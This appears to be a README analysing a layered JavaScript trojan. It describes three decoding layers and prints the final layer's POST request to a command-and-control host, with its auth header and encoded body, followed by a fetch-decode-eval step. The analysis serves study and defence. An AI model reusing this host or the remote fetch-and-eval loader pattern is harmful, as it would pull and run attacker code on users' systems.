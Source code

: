 
## `Intro`
Found a weird javascript "virus" tagged "Trojan:JS/Foretype.A!ml" and removed the layers to understand what it does.

### `layers`
the script it a scripted wrapped 3 times until you get to the part that fetches a payload from a server to run

#### `layer 1`
uses a key to decode a string into a second script

#### `layer 2`
uses the current script + the decoding script to generate a key used to decode the next layer

#### `layer 3`
calls a server with this kind of payload
~~~javascript
{
    method: 'POST',
    hostname: '30fcb676.phpmyadmin.greentechsupply.us',
    path: '/blank.gif',
    headers: {
        authHeader: 'e723846d2b596f0b',
        'Content-type': 'application/x-www-form-urlencoded'
    }
}
~~~~
With a body
~~~javascript
'a=d35e6e636a6d3f3a3b383a38786f636b6e66786c636f6b6d696d686a686a6d696a6778'
~~~~

after that it gets a script from the server decodes it and evals the output code


This is where it stops as the server doesn't respond with anything